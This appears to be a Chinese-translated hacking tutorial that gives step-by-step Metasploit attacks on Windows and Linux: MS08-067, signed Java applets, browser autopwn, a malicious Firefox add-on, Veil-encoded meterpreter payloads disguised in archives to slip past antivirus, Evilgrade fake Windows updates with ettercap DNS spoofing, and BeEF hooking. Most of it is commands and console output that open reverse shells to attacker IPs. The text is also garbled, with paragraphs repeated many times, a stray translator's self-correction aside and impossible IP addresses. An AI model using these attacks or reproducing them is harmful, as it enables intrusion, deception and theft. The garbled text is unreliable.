- 这是一个客户端攻击。当黑客在 `metasploit` 中使用 `java signed applet` 模块时，它将作为服务器，并有一个带有 `java` 反向 payload 的网站。它要求客户端拥有 `java` 应用程序以执行 `java` payload。任何访问网站的人都会下载并安装 payload，黑客就可以控制该计算机。它可以攻击任何带有 `java` 应用程序的机器。

- 你设置 `LHOST` 和 `RHOST` 黑客 ip 地址。`LPORT` 可以是任何端口，`RPORT` 放 8080 或 80 或任何其他端口。使用 `URI` 部分。

- 我们通过 `exploit: java` 创建一个 `jar` 文件，然后对其进行签名。生成的签名 applet 通过网页呈现给受害者。在旧版本中，受害者的 `JVM` 将显示对话框，询问他们是否信任该签名 applet。较新版本在签名不受信任时（即未受受信任的 CA 签名）会在“发布者”行显示警告。`SigningCert` 选项允许你提供受信任的代码签名证书，该值将被覆盖。如果没有提供 `SigningCert`，将使用随机生成的自签名证书。无论如何，一旦用户点击“运行”，漏洞将以全权限执行。

- 这是一个客户端攻击。当黑客在 `metasploit` 中使用 `java signed applet` 模块时，它将作为服务器，并有一个带有 `java` 反向 payload 的网站。它要求客户端拥有 `java` 应用程序以执行 `java` payload。任何访问网站的人都会下载并安装 payload，黑客就可以控制该计算机。它可以攻击任何带有 `java` 应用程序的机器。

- 你设置 `LHOST` 和 `RHOST` 黑客 ip 地址。`LPORT` 可以是任何端口，`RPORT` 放 8080 或 80 或任何其他端口。使用 `URI` 部分。

- 我们通过 `exploit: java` 创建一个 `jar` 文件，然后对其进行签名。生成的签名 applet 通过网页呈现给受害者。在旧版本中，受害者的 `JVM` 将显示对话框，询问他们是否信任该签名 applet。较新版本在签名不受信任时（即未受受信任的 CA 签名）会在“发布者”行显示警告。`SigningCert` 选项允许你提供受信任的代码签名证书，该值将被覆盖。如果没有提供 `SigningCert`，将使用随机生成的自签名证书。无论如何，一旦用户点击“运行”，漏洞将以全权限执行。

- 这是一个客户端攻击。当黑客在 `metasploit` 中使用 `java signed applet` 模块时，它将作为服务器，并有一个带有 `java` 反向 payload 的网站。它要求客户端拥有 `java` 应用程序以执行 `java` payload。任何访问网站的人都会下载并安装 payload，黑客就可以控制该计算机。它可以攻击任何带有 `java` 应用程序的机器。

- 你设置 `LHOST` 和 `RHOST` 黑客 ip 地址。`LPORT` 可以是任何端口，`RPORT` 放 8080 或 80 或任何其他端口。使用 `URI` 部分。

- 我们通过 `exploit: java` 创建一个 `jar` 文件，然后对其进行签名。生成的签名 applet 通过网页呈现给受害者。在旧版本中，受害者的 `JVM` 将显示对话框，询问他们是否信任该签名 applet。较新版本在签名不受信任时（即未受受信任的 CA 签名）会在“发布者”行显示警告。`SigningCert` 选项允许你提供受信任的代码签名证书，该值将被覆盖。如果没有提供 `SigningCert`，将使用随机生成的自签名证书。无论如何，一旦用户点击“运行”，漏洞将以全权限执行。

- 这是一个客户端攻击。当黑客在 `metasploit` 中使用 `java signed applet` 模块时，它将作为服务器，并有一个带有 `java` 反向 payload 的网站。它要求客户端拥有 `java` 应用程序以执行 `java` payload。任何访问网站的人都会下载并安装 payload，黑客就可以控制该计算机。它可以攻击任何带有 `java` 应用程序的机器。

- 你设置 `LHOST` 和 `RHOST` 黑客 ip 地址。`LPORT` 可以是任何端口，`RPORT` 放 8080 或 80 或任何其他端口。使用 `URI` 部分。

- 我们通过 `exploit: java` 创建一个 `jar` 文件，然后对其进行签名。生成的签名 applet 通过网页呈现给受害者。在旧版本中，受害者的 `JVM` 将显示对话框，询问他们是否信任该签名 applet。较新版本在签名不受信任时（即未受受信任的 CA 签名）会在“发布者”行显示警告。`SigningCert` 选项允许你提供受信任的代码签名证书，该值将被覆盖。如果没有提供 `SigningCert`，将使用随机生成的自签名证书。无论如何，一旦用户点击“运行”，漏洞将以全权限执行。

- 这是一个客户端攻击。当黑客在 `metasploit` 中使用 `java signed applet` 模块时，它将作为服务器，并有一个带有 `java` 反向 payload 的网站。它要求客户端拥有 `java` 应用程序以执行 `java` payload。任何访问网站的人都会下载并安装 payload，黑客就可以控制该计算机。它可以攻击任何带有 `java` 应用程序的机器。

- 你设置 `LHOST` 和 `RHOST` 黑客 ip 地址。`LPORT` 可以是任何端口，`RPORT` 放 8080 或 80 或任何其他端口。使用 `URI` 部分。

- 我们通过 `exploit: java` 创建一个 `jar` 文件，然后对其进行签名。生成的签名 applet 通过网页呈现给受害者。在旧版本中，受害者的 `JVM` 将显示对话框，询问他们是否信任该签名 applet。较新版本在签名不受信任时（即未受受信任的 CA 签名）会在“发布者”行显示警告。`SigningCert` 选项允许你提供受信任的代码签名证书，该值将被覆盖。如果没有提供 `SigningCert`，将使用随机生成的自签名证书。无论如何，一旦用户点击“运行”，漏洞将以全权限执行。

- 这是一个客户端攻击。当黑客在 `metasploit` 中使用 `java signed applet` 模块时，它将作为服务器，并有一个带有 `java` 反向 payload 的网站。它要求客户端拥有 `java` 应用程序以执行 `java` payload。任何访问网站的人都会下载并安装 payload，黑客就可以控制该计算机。它可以攻击任何带有 `java` 应用程序的机器。

- 你设置 `LHOST` 和 `RHOST` 黑客 ip 地址。`LPORT` 可以是任何端口，`RPORT` 放 8080 或 80 或任何其他端口。使用 `URI` 部分。

- 我们通过 `exploit: java` 创建一个 `jar` 文件，然后对其进行签名。生成的签名 applet 通过网页呈现给受害者。在旧版本中，受害者的 `JVM` 将显示对话框，询问他们是否信任该签名 applet。较新版本在签名不受信任时（即未受受信任的 CA 签名）会在“发布者”行显示警告。`SigningCert` 选项允许你提供受信任的代码签名证书，该值将被覆盖。如果没有提供 `SigningCert`，将使用随机生成的自签名证书。无论如何，一旦用户点击“运行”，漏洞将以全权限执行。

- 这是一个客户端攻击。当黑客在 `metasploit` 中使用 `java signed applet` 模块时，它将作为服务器，并有一个带有 `java` 反向 payload 的网站。它要求客户端拥有 `java` 应用程序以执行 `java` payload。任何访问网站的人都会下载并安装 payload，黑客就可以控制该计算机。它可以攻击任何带有 `java` 应用程序的机器。

- 你设置 `LHOST` 和 `RHOST` 黑客 ip 地址。`LPORT` 可以是任何端口，`RPORT` 放 8080 或 80 或任何其他端口。使用 `URI` 部分。

- 我们通过 `exploit: java` 创建一个 `jar` 文件，然后对其进行签名。生成的签名 applet 通过网页呈现给受害者。在旧版本中，受害者的 `JVM` 将显示对话框，询问他们是否信任该签名 applet。较新版本在签名不受信任时（即未受受信任的 CA 签名）会在“发布者”行显示警告。`SigningCert` 选项允许你提供受信任的代码签名证书，该值将被覆盖。如果没有提供 `SigningCert`，将使用随机生成的自签名证书。无论如何，一旦用户点击“运行”，漏洞将以全权限执行。

- 这是一个客户端攻击。当黑客在 `metasploit` 中使用 `java signed applet` 模块时，它将作为服务器，并有一个带有 `java` 反向 payload 的网站。它要求客户端拥有 `java` 应用程序以执行 `java` payload。任何访问网站的人都会下载并安装 payload，黑客就可以控制该计算机。它可以攻击任何带有 `java` 应用程序的机器。

- 你设置 `LHOST` 和 `RHOST` 黑客 ip 地址。`LPORT` 可以是任何端口，`RPORT` 放 8080 或 80 或任何其他端口。使用 `URI` 部分。


- 这是一个客户端攻击。当黑客在 `metasploit` 中使用 `java signed applet` 模块时，它将作为服务器，并有一个带有 `java` 反向 `payload` 的网站。它要求客户端拥有 `java` 应用程序以执行 `java payload`。任何访问网站的人都会下载并安装 `payload`，黑客就可以控制该计算机。它可以攻击任何带有 `java` 应用程序的机器。

- 你设置 `LHOST` 和 `RHOST` 黑客 ip 地址。`LPORT` 可以是任何端口，`RPORT` 放 8080 或 80 或任何其他端口。使用 `URI` 部分。

*(Wait, I noticed the input text had many accidental repetitions/garbled lines in the latter half, I will only translate the unique content provided in the first half and follow the instructions.)*

*Self-correction: Let's provide the clean translation of the actual technical content provided.*


木马程序将创建一个服务器，可以安装在我们想要黑入的客户端计算机上。反向连接将让客户端计算机上的服务器连接到木马程序。

## b) 通过 ms08_067 netapi32 攻击 windows


- 攻击 `windows xp sp3` 的步骤


- 使用命令 `nmap -A` 扫描子网以寻找 `windows` 机器

```bash
nmap -A 192.168.1.0/24
```

`Msfconsole`

使用 `exploit/windows/smb/ms08_067_netapi`

设置 `rhost 192.168.52.132` (另一个带有该漏洞的 `win xp` 机器)

`exploit`

```
msf exploit/windows/smb/ms08_067_metapi
msf exploit(ms08_067 metapi) > set RHOST 192.168.1.6
RHOST => 192.168.1.6
msf exploit(ms08_067 metapi) > exploit

[*] Started reverse handler on 192.168.1.3:4444
[*] 正在检测目标...
[*] Fingerprint: Windows XP Service Pack 3 (English)
[*] Selected Target: Windows XP SP3 (ENGLISH)
[*] 正在触发漏洞...
[*] 正在发送 stage (2972128 bytes) to 192.168.1.6
[*] Metpreter session 1 opened (192.168.1.3:4444) -> 192.168.1.6:14903
08-24 18:37:00 -0400
```

- 然后你可以在会话中工作任何命令。

- 部分命令：`ls`, `sysinfo`, `hashdump`, `screenshot`, `ipconfig`, `shell`

- 当进入 `shell` 时可以使用以下命令：`net`, `ipconfig/all`, `tasklist`, `net user`, `net share`, `netstat -an`


- 你可以使用此在计算机上运行 `payload`

```bash
msf exploit(ms08_067_metapi) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(ms08_067_metapi) > set LHOST 192.168.1.3
LHOST => 192.168.1.3
msf exploit(ms08_067_metapi) > set LPORT 4444
LPORT => 4444
msf exploit(ms08_067_metapi) > set RHOST 192.168.1.10
RHOST => 192.168.1.10
msf exploit(ms08_067_metapi) > exploit

[*] Started reverse handler on 192.168.1.3:4444
[*] 正在检测目标...
[*] Fingerprint: Windows XP Service Pack 3 (English)
[*] Selected Target: Windows XP SP3 (ENGLISH)
[*] 正在触发漏洞...
[*] 正在发送 stage (2972128 bytes) to 192.168.1.3
[*] Metpreter session 1 opened (192.168.1.3:4444) -> 192.168.1.10:10441 at 2013
08-25 14:20:32 -0400
```

## Msfconsole

使用 `exploit/windows/smb/ms08_067_metapi`

设置 `PAYLOAD windows/meterpreter/reverse_tcp`

设置 `LHOST 192.168.1.535`

设置 `LPORT 4444`

设置 `RHOST 192.168.1.532` (另一个带有漏洞的 `win xp` 机器)

`Exploit`

此模块利用 `RPCSS` 服务中的栈溢出，该漏洞最初由 `Last Stage of Delirium` 研究小组发现，此后被广泛利用。该模块可以在一次请求中利用 `Windows NT 4.0 SP3-6a`、`Windows 2000`、`Windows XP` 和 `Windows 2003`：

- 你也可以使用 `armitage`


## 客户端攻击：通过 Java Applet 攻击 Windows

此漏洞通过 `exploit: java` 创建一个 `jar` 文件，然后对其进行签名。生成的签名 `applet` 通过网页呈现给受害者。在旧版本中，受害者的 `JVM` 将显示对话框，询问他们是否信任该签名 `applet`。较新版本在签名不受信任时（即未受受信任的 `CA` 签名）会在“发布者”行显示警告。`SigningCert` 选项允许你提供受信任的代码签名证书，该值将被覆盖。如果没有提供 `SigningCert`，将使用随机生成的自签名证书。无论如何，一旦用户点击“运行”，漏洞将以全权限执行。


- 这是一个客户端攻击。当黑客在 `metasploit` 中使用 `java signed applet` 模块时，它将作为服务器，并有一个带有 `java` 反向 `payload` 的网站。它要求客户端拥有 `java` 应用程序以执行 `java payload`。任何访问网站的人都会下载并安装 `payload`，黑客就可以控制该计算机。它可以攻击任何带有 `java` 应用程序的机器。

- 你设置 `LHOST` 和 `RHOST` 黑客 ip 地址。`LPORT` 可以是任何端口，`RPORT` 放 8080 或 80 或任何其他端口。使用 `URI` 部分。


## 客户端攻击：通过 Java Applet 攻击 Windows（带有 DNS 欺骗的 HTTP shell）


```
GET /C0Kymeywd/C06gbbjixte1C5dpPLBXAXXp/RelwxvdTICofCAAMbdbI|A== HTTP/1.1"
192.168.28.214 - [26/Aug/2013:17:03:03] "GET /Bn913D1yph HTTP/1.1" 200 -
shell> help
```

## f) 通过浏览器 Autopone 攻击 Windows

此模块有三个操作。第一个（也是默认）是 `WebServer`，它结合客户端和服务端技术对客户端进行指纹识别并自动利用。接下来是 `Defanged`，它只执行指纹识别部分。最后 `list` 会简单地打印在当前 `MATCH` 和 `EXCLUDE` 选项下 `WebServer` 操作将使用的所有漏洞模块名称。还会添加一个 `'list'` 命令，其与不带 `list` 运行相同。

- 黑客可以将自己的电脑变成伪造的 `Web` 服务器，并可以在网站上创建一个利用浏览器安全漏洞攻击其电脑的网站。任何客户端访问黑客网站，它都会对浏览器应用漏洞利用。

- 开始攻击：搜索 `browser_autopone`。将 `LHOST` 和 `SRHOST` 设置为黑客机器的 `IP`，`SRport = 80`，`URI Path` 为 `/`


- 你可以使用网站 `bily.com` 缩短 `URL`。当它攻击客户端时，将打开 `meterpreter` 会话。

注意：杀毒软件会检测到 `autopone` 并拦截连接

## g) 客户端攻击：通过 firefox faded on 攻击 Windows

此漏洞利用动态创建一个 `xpi` 插件。经过引导的 `Firefox` 插件通过网页呈现给受害者。受害者的 `Firefox` 浏览器将弹出一个对话框，询问是否信任该插件。一旦用户点击“安装”，插件就会被安装并以全用户权限执行有效负载。对于 `Firefox` 来说，这可以在不重启的情况下运行，该插件被标记为“`bootstrapped`”（引导的）。该插件会在每次 `firefox` 重启后执行有效负载，可以提供一个选项在有效负载执行后自动卸载该插件。

- 黑客可以将自己的电脑变成伪造的 `Web` 服务器，并可以在带有虚假插件的网站上操作。任何客户端访问黑客网站，`firefox` 将尝试下载插件，并将下载 `java meterpreter reverse tcp`。

- 在此场景中，搜索 `firefox`。使用 `exploit/multi/browser/firefox_xpi_bootstrapped_addon`。设置 `payload` 为 `windows/meterpreter/reverse_tcp`。设置 `Lhost` 和 `Rhost` 为黑客电脑，`Lport` 为任意端口，`srvport` 为合适的端口。

```
mf exploit/multi/browser/firefox_xpi_bootstrapped_addon
mf exploit(firefox_xpi_bootstrapped_addon) > set PAYLOAD windows/meterpreter/reverse_tcp
var PAYLOAD => windows/meterpreter/reverse_tcp
mf exploit(firefox_xpi_bootstrapped_addon) > set LHOST 192.168.20.204
LHOST => 192.168.20.204
mf exploit(firefox_xpi_bootstrapped_addon) > set LPORT 6666
LPORT => 6666
mf exploit(firefox_xpi_bootstrapped_addon) > set SRHOST 192.168.20.204
SRHOST => 192.168.20.204
mf exploit(firefox_xpi_bootstrapped_addon) > set SRVPORT 80
SRPORT => 80
mf exploit(firefox_xpi_bootstrapped_addon) > set URIPATH /
nURIPATH => /
mf exploit(firefox_xpi_bootstrapped_addon) > exploit -j
[+] Exploit running as background job.
[+] Started reverse handler on 192.168.20.204:6666
[+] Using URL: http://192.168.20.204:6666/
[+] Server started.
```


- 输入命令 `"sessions -I"` 查看会话。选择第一个会话输入 `"session -I"`。

注意：`firefox` 将检测到未经验的插件将不会安装。

## h) 客户端攻击：通过编码有效负载绕过杀毒软件

- 下载 `Veil-master`

```
cd Veil-master
```

```
./setup.sh
```

```
- 选择 `payload 9: Powershell/virtualalloc`。然后生成有效负载。选择 `msfvenom`。选择 `windows/meterpreter/reverse_tcp`。选择 `payload` 名称、黑客机器的 `IP 192.168.52.135`。选择任意 `lport`。选择 `payload` 的名称。

```

`Use msfvenom or supplycode`:

1 - `msfvenom` (default)

2 - `Custom`

```
```

`>] Please enter the number of choice: 1`

`[*] Press [enter] for help...`

`[*] Press [tab] to list available payloads`

`[*] Please enter metasploit payload: windows/meterpreter/reverse_tcp`

`[*] Enter value for 'LHOST' for local IP: 192.168.20.204`

`[*] Enter value for 'LPORT': 4444`

`[*] Enter extra msfvenom options in OPTION value:`


```

`[+] Press [enter] for 'payload'`

`>] Please enter the base name for output files: mahoud`

`Language: powershell`

`Payload: VirtualAlloc`

`Shellcode: windows/meterpreter/reverse_tcp`

`Options: LHOST=192.168.28.225 LPORT=4444`

`Source: /root/veil-master/output/mahmoud.bat`

```
```

`[!] Your payload files have been generated,don't get caught!`

`[!] And don't submit samples to any scanner;`

```
`] press any key to return to main menu`
```

- 使用 `winrar` 等归档程序附加有效负载。使用图标更改图标。让客户端下载文件。

- 操作多-`handler msfcli` 以捕获客户端

```
msfcli multi/handler payload=windows/meterpreter/reverse_tcp lhost=192.168.52.135 lport=4444 E
```

```
root@kali# msfcli multi/handler payload=windows/meterpreter/reverse_tcp lhost=192.168.28.225 lport=4444 E
```

- 用户打开程序后，`meter` 会话将会打开

## j) 通过伪造软件攻击 Windows


- 我们将通过伪造更新下载 `windows reverse tcp`，与黑客电脑建立反向连接，并通过 `meter` 会话控制客户端。

- 安装 `Evilgrade`。输入 `type`


```text
# evilgrade root@bt:~ File Edit View Terminal Help
[DEBUG] Loading module: modules/subbelt.pm
[DEBUG] Loading module: modules/winscsp.pm
[DEBUG] Loading module: modules/iskit.pm
[DEBUG] Loading module: modules/panda_antikit.pm
[DEBUG] Loading module: modules/flip4hmac.pm
[DEBUG] Loading module: modules/dvsvite.pm
[DEBUG] Loading module: modules/ghost.pm
[DEBUG] Loading module: modules/guillotine.pm
[DEBUG] Loading module: modules/freepip.pm
[DEBUG] Loading module: modules/shell.pm
[DEBUG] Loading module: modules/cygwin.pm
[DEBUG] Loading module: modules/winupdate.pm
[DEBUG] Loading module: modules/net.pm
[DEBUG] Loading module: modules/oscm.pm
[DEBUG] Loading module: modules/vbox.pm
[DEBUG] Loading module: modules/winlogon.pm
[DEBUG] Loading module: modules/altkeys.pm
[DEBUG] Loading module: modules/atube.pm
[DEBUG] Loading module: modules/osx.pm
[DEBUG] Loading module: modules/photoscape.pm
```

## 配置 winupdate

## 显示选项

- 在其他命令行中创建有效负载

```bash
# msfpayload windows/meterpreter/reverse_tcp lhost=192.168.28.133 lport=5555 x > /root/evil.exe
```

```text
root@bt:~ 
File Edit View Terminal Help
```

- 返回到 evil grade

- 告诉它有效负载

`Evilgrade(winupdate):set agent '/root/mahmoud.exe'`

`Evilgrade(winupdate):set agent '/root/mahmoud.exe'`

- 编辑文件

`Evilgrade(winupdate):`

- 注意：`PTR` 不允许通配符

- 如果你想进行反向污染，请指定一个主机。（查看 `www.microsoft.com`）

`###########################`

`# microsoft sucks);`

`# 将其重定向到 www.linux`

`linux.microsoft.com A 192.168.28.133`

`update.microsoft.com A 192.168.28.133`

`www.microsoft.com A 192.168.28.133`

`###########################`

- 在命令行中操作 `ettercap`

```bash
# aftercap -T - Q -M -P dns_spoof/192.168.28.7 // // (ip of the machine gateway)
root@#:gatecap -T - Q - M -P dns spoof/192.168.28.7
ettercap 0.4.1 copyright 2001-2011 ALoR & NaGa
Listening on eth0... (Ethernet)
eduors
[23/08/23-08:06:23 192.168.28.133 255.255.255.0]
Priv:46 Invalid entry go.microsoft.com
28 plugins
40 protocol dissectors
55 ports monitored
7592 vendor fingerprint
1766 tcp 05 fingerprint
2183 known services
Randomizing 255 hosts for scanning...
Scanning the whole network for 255 hosts...>> 100.00
```

- 操作多-handler

```bash
#Msfeli multihander/handler payload=windows/meterpreter/reverse_tcp lhost=192.168.28.133 Lport=4444 E
# Please wait we load the module,...
```

- 进入 evil grade 并写入 start

`Evilgrade > start`

```text
>upgrade(winupdate)>status
OBSERVER: (pid 2348) already running
OBSERVER: (pid 2349) already running
```

- 在客户端上进行测试。客户端将执行 Windows 更新。通过解释器，你可以通过 VNC 控制客户端电脑，并在客户端上执行任何操作。

## 破解 Windows

- 负责远程连接的 `RPC` 服务。你可以使用 `exploit.py` 脚本来崩溃服务器。

- 发现网络：

```bash
netdiscover -r 192.168.1.0/24nmap -sV -O (IP address) 来扫描服务并查看服务是否开放（端口 3389-ms-server）
```


- 你可以使用 `exploit.py` 来崩溃服务器：

```bash
root@bt:~# python exploit.py 192.168.1.20/24
```

## 客户端攻击：通过 BeEF 破解 Windows

`BeEF` 是 `Browser Exploitation Framework`（浏览器利用框架）的缩写。它是一个专注于浏览器的渗透测试工具。随着对包括移动客户端攻击担忧的增加，`BeEF` 允许专业渗透人员使用客户端攻击向量评估目标环境的实际安全状态。与其他安全框架不同，`BeEF` 跨越了加固的网络边界，在开放浏览器的范围内检查可利用性。`BeEF` 将挂钩一个或多个网络浏览器，并将其作为桥头堡，从浏览器内部对系统发起定向模块和进一步攻击。


- 它是一个 Web 应用。当客户端浏览此网站时，黑客可以在客户端电脑上应用 `Java` 负载（payloads）。

- 从 GitHub 的后端、利用工具、社会工程工具、`BeEF XSS` 框架下载并安装 `BeEF`。安装完成后，你将获得 `Hook URL` 和 `UI URL`：

```text
Hook URL: http://127.0.0.1:3000/hook.js
UI URL: http://127.0.0.1:3000/ui/panel
running on network interface 192.168.20.13
```

- 使用用户名 `beef` 和密码 `beef` 进入控制面板。

## 浏览器利用框架项目


官方网站：`http://beefproject.com/`

## 入门

欢迎使用 `BeEF`！

在充分探索框架之前，你必须先“挂钩”（hook）一个浏览器。开始时，你可以将浏览器指向这里的基础 Demo，或这里的高级版本。

在框架中挂钩浏览器后，它们将出现在左侧的“已挂钩浏览器”（`Hooked Browsers`）面板中。根据最近使用框架的时间，挂钩浏览器将以在线或离线状态显示。

### 已挂钩浏览器

- 修改路径 `/var/www/index.html` 中的 `index.html` 并重启 `apache`

```html
<html
<head>
  <title>loading...</title>
  <script src="http://127.0.0.1:3000/hook.js"></script>
</head>
<body>
  <h1>loading...</h1>
</body>
</html>
```

- 我们可以将浏览器重定向到特定的网站。


- 在 `armitage` 中创建 `java_signed applet` 负载，并将 `SRVHost` 和 `lhost` IP 设置为黑客电脑 IP。获取链接并将其粘贴到 beef 应用程序中的重定向浏览器（`redirect`）部分。当客户端进入链接时，电脑将被破解。


## 通过 Payload 破解 Linux


- Linux 的漏洞比 Windows 少，但可以通过 payload 破解 Linux。

- 必须使用 msf3 负载并编写 `msfpayload linux` 命令。当客户端运行负载时，使用 `msfcli multi/handler` 命令控制被破解的机器：

```bash
root@kali:~# cd /opt/metasploit/msf3
root@kali:/opt/metasploit/msf3 msfpayload Linux/x86/meterpreter/reverse_tcp LHOST=192.160.28.133 LPORT=4444 Ri /.msfencode -l elf -e x86/shikata_ga_nai
[*] x80/shikata_ga_nai succeeded with size 77 (iteration=1)
root@kali:/opt/metasploit/msf3 msfcli multi/handler payload=linux/x86/meterpreter/reverse_tcp LHOST=192.160.28.133 LPORT=4444 E
```


